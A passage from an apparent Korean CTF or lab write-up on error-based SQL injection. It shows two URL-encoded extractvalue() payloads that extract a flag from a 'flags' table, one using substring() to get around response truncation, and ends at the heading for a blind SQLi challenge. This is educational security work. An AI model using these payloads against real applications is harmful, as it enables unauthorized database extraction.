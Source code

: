 `information_schema.columns`를 활용한 쿼리 결과,
`flags` 테이블에는 `flag_id`, `flag`, `description`, `created_at` 컬럼이 존재함을 확인하였다.

최종적으로 다음과 같은 **에러 기반 SQL Injection 페이로드**를 이용하여 flag 값을 추출하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0aflag%0afrom%0aflags%0alimit%0a0,1)))%0aand%0a'1'='1
```

![spec4 flag](/assets/web-screenshots/blind-error-based-sqli/spec4_flag.png)

플래그를 추출하는 과정에서 응답 길이 제한으로 인해 일부 값이 잘려 출력되는 문제가 발생하였다. 이를 해결하기 위해, 아래와 같은 쿼리를 사용하여 flag 값의 뒷부분을 `substring()` 함수를 통해 분할 추출하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0asubstring(flag,31,32)%0afrom%0aspec4.flags%0alimit%0a0,1)))%0aand%0a'1'='1
```

**이렇게 최종 flag를 얻었다.**

---

### 보안 커뮤니티 (Blind SQLI)


![보안 커뮤니티 board](/assets/web-screenshots/blind-error-based-sqli/spec5.png)

